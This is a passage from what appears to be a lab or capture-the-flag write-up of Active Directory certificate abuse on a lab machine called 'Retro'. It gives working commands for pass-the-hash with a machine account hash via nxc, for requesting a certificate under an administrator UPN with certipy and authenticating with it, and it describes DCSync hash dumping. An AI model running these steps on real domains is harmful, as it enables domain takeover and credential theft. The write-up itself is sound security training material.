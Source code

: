 ```powershell
nxc smb 10.10.79.94 -u 'DC$' -H 532f3be569a64881ec82f1cc875059e3
```

![alt text](/assets/screenshots/Retro/21.png)

Alternatively, as many attackers prefer, we can also manually specify a different user, such as `administrator`, in the request. This way, we directly obtain a certificate to authenticate as a `Domain Admin`.

```powershell
certipy req -u 'BANKING$' -p 'Password123!' -dc-ip '10.10.79.94' -ca 'retro-DC-CA' -template 'RetroClients' -dns 'DC.retro.vl' -key-size 4096 -upn 'administrator@retro.vl'
```

then

```powershell
certipy auth -pfx administrator_dc.pfx -domain retro.vl
```
![alt text](/assets/screenshots/Retro/24.png)

## Privilege Escalation

Once we had a valid certificate and successfully authenticated as the `DC$` (`Domain Controller machine account`), we had the ability to perform `DCSync` or extract secrets from the domain controller using tools like `secretsdump.py`.

This step allows us to dump password hashes of all users in the domain, including privileged accounts like `krbtgt` and `Administrator`, which is a critical part of post-exploitation.

